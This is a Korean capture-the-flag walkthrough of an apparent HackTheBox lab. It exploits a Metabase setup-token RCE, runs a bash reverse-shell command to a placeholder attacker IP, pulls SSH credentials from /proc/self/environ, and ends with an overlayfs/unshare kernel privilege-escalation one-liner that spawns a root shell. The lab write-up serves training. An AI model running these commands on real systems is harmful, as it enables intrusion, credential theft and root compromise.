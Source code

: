 ### 초기 침투
- metabase 로그인 페이지를 찾음
  - metabase: 오픈 소스 business intelligence tool
  - 임의 코드 실행 취약점을 이용
### exploit
- python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]" 다음과 같은 형태로 실행
  - exploit 하기 위해 data.analytics.htb/api/session/properties 에서 setup-token 값을 읽는다
    - 인증 없이도 액세스 가능한 경우가 많음
  - db 연결을 검증하는 setup-token과 함께 사용할 수 있는 api 엔드포인트를 찾음
  - h2 db 드라이버에서 sql 주입 취약점을 발견
  - db 유효성 검사 단계를 조작하여 임의의 코드 실행
- 해당 토큰과 url, exploit code를 실행하여 전달하고 reverse shell을 얻는다
- python3 main.py -u http://data.analytical.htb -t <토큰 값> -c "bash -i >& /dev/tcp/<ip값>/4444 0>&1"
- proc/self/environ 에서 meat user id와 meta password 값을 찾아 ssh로 접속을 시도 한다.
- user flag 값을 얻을 수 있다.

### 권한 상승
- sudo -l: 실행 안됨
- uname -a: 시스템 커널 과 하드웨어 정보를 확인하여 권한 상승할 정보를 찾는다
<br></br>
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t
overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" &&
u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```
